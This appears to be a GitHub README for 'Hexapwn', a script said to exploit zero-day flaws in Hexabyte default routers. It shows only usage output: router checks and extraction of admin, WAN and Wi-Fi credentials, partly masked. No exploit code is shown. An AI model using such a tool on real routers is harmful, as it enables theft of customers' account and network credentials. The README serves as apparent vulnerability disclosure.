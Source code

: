 # Hexapwn
this script exploit multi zero days discovered on the hexabyte default router.
Check this blog post for more details:
http://www.katsumoto-security.com/blog/index.php/2016/10/16/hexapwn-vulnerabilities-that-affect-thousands-of-hexabyte-customers/


usage :

```
_   _                                    
| | | | _____  ____ _ _ ____      ___ __  
| |_| |/ _ \ \/ / _` | '_ \ \ /\ / / '_ \ 
|  _  |  __/>  < (_| | |_) \ V  V /| | | |
|_| |_|\___/_/\_\__,_| .__/ \_/\_/ |_| |_|
                     |_|                  
                                     v1.0 
                  K4tsum0t0 Security Team


[+] Checking 192.168.1.1 ...
[+] Vulnerable
admin password : admin
[+] extracting WAN credentials ...
username = hexa****@hexabyte.tn
var pwdppp = "**********";
[+] extracting Wireless conf ...
SSID = HEXABYTE_********
WPA = ********
```

This script is provided as-is without warranty of any kind and is intended for educational purposes only.
